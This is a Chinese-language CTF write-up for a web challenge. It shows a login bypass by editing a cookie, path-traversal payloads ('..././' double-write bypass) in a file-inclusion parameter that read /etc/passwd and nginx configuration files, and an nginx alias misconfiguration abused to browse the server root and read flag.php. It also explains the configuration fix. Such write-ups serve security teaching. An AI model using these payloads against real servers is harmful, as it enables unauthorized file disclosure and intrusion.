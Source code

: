 ```yaml
---
title: Zone--Nginx配置出错
date: 2018-03-20 00:00:01
categories:
- CTF/Web
tags: 百度杯二月 文件包含 Nginx
--- 
```


工控线下的web就是源于此题

## 登录绕过

- 登录框尝试注入无果，全是网站建设中
- burp拦包发现cookie中有一个login字段，改为1，重新访问index.php


## 文件包含

```url
/manages/admin.php?module=index&name=php
```

这里要进行测试:
```url

/index.php          # 有界面
/manages/index.php  # 只有字
/admin.php          # 404



/manages/admin.php?module=index.php&name=  # 正常访问
/manages/admin.php?module=admin.php&name=  # 空
/manages/admin.php?module=admin&name=php   # 空

/robots.txt         # 提示flag.php
/manages/robots.txt # 404

/manages/admin.php?module=robots.txt&name=   # 提示flag.php

```

说明文件包含的路径并非manages/应该是其父目录，即网站的根目录，继续测试：

```url
/manages/admin.php?module=/manages/index.php&name= # 只有字
/manages/admin.php?module=/manages/admin.php&name= # 嵌套了
```

说明猜想正确，尝试用../读取/etc/passwd:

```url
/manages/admin.php?module=../../../../../../../../etc/passwd&name= # 空
```

尝试双写../即..././或....//绕过：

```url
manages/admin.php?module=....//....//....//....//....//....//..../etc/passwd&name=     # 成功
manages/admin.php?module=..././..././..././..././..././..././..././etc/passwd&name=    # 成功
```

## nginx配置文件

一般nginx的配置文件存放在`/etc/nginx`目录下

- `/etc/nginx/nginx.conf`
- `/etc/nginx/conf.d/default.conf`

其中第一个配置文件中一般会有如下语句：

```
include /etc/nginx/conf.d/*.conf
```

包含了/etc/nginx/conf.d/路径中全部的配置文件，所以/etc/nginx/nginx.conf才是nginx的主要配置文件，尝试读取本题的配置文件：

```
manages/admin.php?module=..././..././..././..././..././..././..././etc/nginx/nginx.conf&name= 
```

```
worker_processes  1;
events {
    worker_connections  1024;
}


http {
    include       mime.types;
    default_type  application/octet-stream;
    include  sites-enabled/default;
}

```

继续读取sites-enabled/default

```
manages/admin.php?module=..././..././..././..././..././..././..././etc/nginx/sites-enabled/default&name=
```

```

                        server {
    listen 80;
    #listen [::]:80 default_server ipv6only=on;

    root /var/www/html;
    index index.php index.html index.htm;

    server_name localhost;

    location / {
        try_files $uri $uri/ =404;
        location ~ \.php$ {
            fastcgi_split_path_info ^(.+\.php)(/.+)$;
            fastcgi_param  SCRIPT_FILENAME  /var/www/html$fastcgi_script_name;
            #fastcgi_pass unix:/var/run/php5-fpm.sock;
            fastcgi_pass   127.0.0.1:9000;
            fastcgi_index index.php;
            include fastcgi_params;
        }
    }

    error_page 404 /404.html;

    error_page 500 502 503 504 /50x.html;
    location = /50x.html {
        root /var/www/html;
    }

    location /online-movies {
            alias /movie/;
            autoindex on;
        }
    
    location ~ /\.ht {
        deny all;
    }
}

```

这里重点看：

```
location /online-movies {
            alias /movie/;
            autoindex on;
    }

```

- 他将访问中/online-movies的请求定向到服务器根目录的movie路径（注意不是网站根目录）
- 于是当我们请求/online-movies../时，会变成/movie/..，就是服务器根路径，导致目录浏览
- 修改/online-movies为/online-movies/即可避免此问题

于是利用如下直接访问/var/www/html/flag.php获取源码即可，注意因为html/下存在index.php，所以直接通过鼠标点进去无法查看html下的文件列表。

```
http://28b14bfa5fac4cd69cb3952211e0f26a9b8caedb3f5d4d38.game.ichunqiu.com//online-movies../var/www/html/flag.php
```
